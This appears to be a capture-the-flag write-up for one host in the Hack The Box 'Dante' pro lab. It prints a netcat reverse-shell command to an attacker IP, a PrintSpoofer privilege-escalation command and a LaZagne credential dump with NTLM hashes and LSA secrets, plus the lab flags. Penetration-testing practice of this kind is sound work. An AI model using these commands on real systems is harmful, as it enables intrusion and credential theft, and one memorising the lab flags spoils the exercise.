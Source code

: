 Host [172.16.1.102](http://172.16.1.102):

![](./_resources/HTB_Pro_Lab_Dante.resources/image.34.png)
In checking the website, it is a marriage application site. In attempting to quickly submit an application after filling it out, I obtained the following results.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.39.png)

In attempting to find more about what I may be able to use to login as the admin, I found the following when selecting on the "Admin" option from the homepage which should allow me to attempt a bruteforce attack on the password reset page with random numbers as the phone number or using password lists on the regular admin login screen.
![](./_resources/HTB_Pro_Lab_Dante.resources/image.40.png)

I went ahead and checked online for this OMRS site. I immediately found an exploit on exploitdb that was a python script. It quickly allowed me to have a user account created as shown below with a set user and password.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.71.png)
it also provided the following user:
```
dante-ws03\blake
```

In this case, I was able to execute a reverse shell after finding out that there is a netcat.exe in Blake's directory on the machine in the Desktop folder.:

Attacker machine:
```
proxychains nc -nlvp 555
```

Windows victim machine with the use of the downloaded python script.:
```
proxychains python3 exploit.py -u http://172.16.1.102:80/ -c 'C:\users\blake\Desktop\nc.exe 10.10.16.101 555 -e cmd.exe'
```

Flag:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.72.png)

```
DANTE{U_M4y_Kiss_Th3_Br1d3}
```

From here, I started to check each folder in Blake's directory and I found an executable called PrintSpoofer64.exe in the Downloads folder. After quickly looking this up, I  found that you can easily escalate privileges to root "NT AUTH" using the following.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.73.png)

```
PrintSpoofer64.exe -i -c cmd
```

Root flag:
```
DANTE{D0nt_M3ss_With_MinatoTW}
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.74.png)

I found a laz.exe which reminded me of the LaZagne project which gathers up all of the credentials on the Windows system. I ran it and obtained the following.:
```
C:\Users\Administrator\Documents>./laz.exe all
./laz.exe all
'.' is not recognized as an internal or external command,
operable program or batch file.
C:\Users\Administrator\Documents>laz.exe all
laz.exe all
|====================================================================|
|                                                                    |
|                        The LaZagne Project                        |
|                                                                    |
|                          ! BANG BANG !                            |
|                                                                    |
|====================================================================|
[+] System masterkey decrypted for c4d13a5b-2749-4b5a-a7b6-68c0f1a65666
[+] System masterkey decrypted for 7aeff6c8-1ee3-451c-aa30-31cebcf008e9
[+] System masterkey decrypted for 785fade9-4004-4465-83be-f6042d77919f
[+] System masterkey decrypted for 7b4d9074-5f4b-4c0b-9bad-9695241a6b18
[+] System masterkey decrypted for d74bdbac-95f2-484c-af2e-1db10b075f6c
[+] System masterkey decrypted for 124df0f2-d8e3-479c-a889-ff1352b7cc28
[+] System masterkey decrypted for 2c7188da-8048-4047-aa93-57f756a80088
########## User: SYSTEM ##########
------------------- Hashdump passwords -----------------
Administrator:500:aad3b435b51404eeaad3b435b51404ee:03640479a3bd1700fe8c9c5b0db0b354:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
blake:1002:aad3b435b51404eeaad3b435b51404ee:86f16efeb6f8187fa52f3f729896bff7:::
------------------- Lsa_secrets passwords -----------------
_SC_Apache
0000  2C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ,...............
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 75 00 73 00 65 00 72 00 00 00 00 00    !._.u.s.e.r.....
NL$KM
0000  40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010  DF 56 4B E7 7F FA 5B 0E 58 B6 DD E0 7B BD F4 DF    .VK...[.X...{...
0020  56 0C E4 B4 B7 0B CC 57 EF 64 36 71 AF 36 B7 C6    V......W.d6q.6..
0030  F8 BC 37 9D 00 71 1E A1 80 83 8B 47 F9 6A 93 DC    ..7..q.....G.j..
0040  88 1B 05 18 98 27 B5 53 EA 5E 03 30 C6 FF 13 F3    .....'.S.^.0....
0050  AA E5 F2 C8 64 BA 08 85 A2 A9 DF 62 D3 B3 A4 9B    ....d......b....
DPAPI_SYSTEM
0000  01 00 00 00 8C 31 59 C7 52 F9 A9 AE 2C B3 D1 AD    .....1Y.R...,...
0010  58 9D F0 F6 78 D7 A4 53 66 AB 67 58 90 BD DE 99    X...x..Sf.gX....
0020  9E DE 9B 79 12 B4 09 59 A9 36 AD BB                ...y...Y.6..
L$_SQSA_S-1-5-21-3089243881-3525850343-252262830-1001
0000  18 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  7B 00 22 00 76 00 65 00 72 00 73 00 69 00 6F 00    {.".v.e.r.s.i.o.
0020  6E 00 22 00 3A 00 31 00 2C 00 22 00 71 00 75 00    n.".:.1.,.".q.u.
0030  65 00 73 00 74 00 69 00 6F 00 6E 00 73 00 22 00    e.s.t.i.o.n.s.".
0040  3A 00 5B 00 7B 00 22 00 71 00 75 00 65 00 73 00    :.[.{.".q.u.e.s.
0050  74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
0060  68 00 61 00 74 00 20 00 77 00 61 00 73 00 20 00    h.a.t. .w.a.s. .
0070  79 00 6F 00 75 00 72 00 20 00 63 00 68 00 69 00    y.o.u.r. .c.h.i.
0080  6C 00 64 00 68 00 6F 00 6F 00 64 00 20 00 6E 00    l.d.h.o.o.d. .n.
0090  69 00 63 00 6B 00 6E 00 61 00 6D 00 65 00 3F 00    i.c.k.n.a.m.e.?.
00A0  22 00 2C 00 22 00 61 00 6E 00 73 00 77 00 65 00    ".,.".a.n.s.w.e.
00B0  72 00 22 00 3A 00 22 00 57 00 65 00 6C 00 63 00    r.".:.".W.e.l.c.
00C0  6F 00 6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00    o.m.e.1.".}.,.{.
00D0  22 00 71 00 75 00 65 00 73 00 74 00 69 00 6F 00    ".q.u.e.s.t.i.o.
00E0  6E 00 22 00 3A 00 22 00 57 00 68 00 61 00 74 00    n.".:.".W.h.a.t.
00F0  19 20 73 00 20 00 74 00 68 00 65 00 20 00 6E 00    . s. .t.h.e. .n.
0100  61 00 6D 00 65 00 20 00 6F 00 66 00 20 00 74 00    a.m.e. .o.f. .t.
0110  68 00 65 00 20 00 63 00 69 00 74 00 79 00 20 00    h.e. .c.i.t.y. .
0120  77 00 68 00 65 00 72 00 65 00 20 00 79 00 6F 00    w.h.e.r.e. .y.o.
0130  75 00 72 00 20 00 70 00 61 00 72 00 65 00 6E 00    u.r. .p.a.r.e.n.
0140  74 00 73 00 20 00 6D 00 65 00 74 00 3F 00 22 00    t.s. .m.e.t.?.".
0150  2C 00 22 00 61 00 6E 00 73 00 77 00 65 00 72 00    ,.".a.n.s.w.e.r.
0160  22 00 3A 00 22 00 57 00 65 00 6C 00 63 00 6F 00    ".:.".W.e.l.c.o.
0170  6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00 22 00    m.e.1.".}.,.{.".
0180  71 00 75 00 65 00 73 00 74 00 69 00 6F 00 6E 00    q.u.e.s.t.i.o.n.
0190  22 00 3A 00 22 00 57 00 68 00 61 00 74 00 19 20    ".:.".W.h.a.t.. 
01A0  73 00 20 00 74 00 68 00 65 00 20 00 6E 00 61 00    s. .t.h.e. .n.a.
01B0  6D 00 65 00 20 00 6F 00 66 00 20 00 74 00 68 00    m.e. .o.f. .t.h.
01C0  65 00 20 00 66 00 69 00 72 00 73 00 74 00 20 00    e. .f.i.r.s.t. .
01D0  73 00 63 00 68 00 6F 00 6F 00 6C 00 20 00 79 00    s.c.h.o.o.l. .y.
01E0  6F 00 75 00 20 00 61 00 74 00 74 00 65 00 6E 00    o.u. .a.t.t.e.n.
01F0  64 00 65 00 64 00 3F 00 22 00 2C 00 22 00 61 00    d.e.d.?.".,.".a.
0200  6E 00 73 00 77 00 65 00 72 00 22 00 3A 00 22 00    n.s.w.e.r.".:.".
0210  57 00 65 00 6C 00 63 00 6F 00 6D 00 65 00 31 00    W.e.l.c.o.m.e.1.
0220  22 00 7D 00 5D 00 7D 00 00 00 00 00 00 00 00 00    ".}.].}.........
DefaultPassword
0000  2E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 61 00 64 00 6D 00 69 00 6E 00 00 00    !._.a.d.m.i.n...
[+] 0 passwords have been found.
For more information launch it again with the -v option
elapsed time = 21.7190001011
```

I found the following file as well but I'm not sure if it is important yet.:
```
Directory of C:\Users\Administrator\Searches
10/11/2020  06:19 AM    <DIR>          .
10/11/2020  06:19 AM    <DIR>          ..
04/27/2020  04:57 AM              852 winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
              1 File(s)            852 bytes
              2 Dir(s)  9,017,184,256 bytes free
C:\Users\Administrator\Searches>type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
  <description></description>
  <isSearchOnlyItem>true</isSearchOnlyItem>
  <includeInStartMenuScope>true</includeInStartMenuScope>
  <templateInfo>
    <folderType>{982725EE-6F47-479E-B447-812BFA7D2E8F}</folderType>
  </templateInfo>
  <simpleLocation>
    <url>winrt://{S-1-5-21-3089243881-3525850343-252262830-500}/</url>
    <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYUgAAQDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAJAUAwHoB4UccIoClGEiqOCAsCMw0peAEGgAAAAAcHApBgbAIHA0BgOA8CAvAweAMFAtAQMA0CA1AQLAIDAxAQLAMDAwAAOAkDAyAANAMDA4AAOAEDAtAwMAUDAyAQNAgDA1AAMAMDA0AwMA0CAyAQNAIDAyAgNAIDA4AwMAADAtAQNAADAwAQfA8CAAAAAAAAAAAAAAA</serialized>
  </simpleLocation>
</searchConnectorDescription>
C:\Users\Administrator\Searches>
```

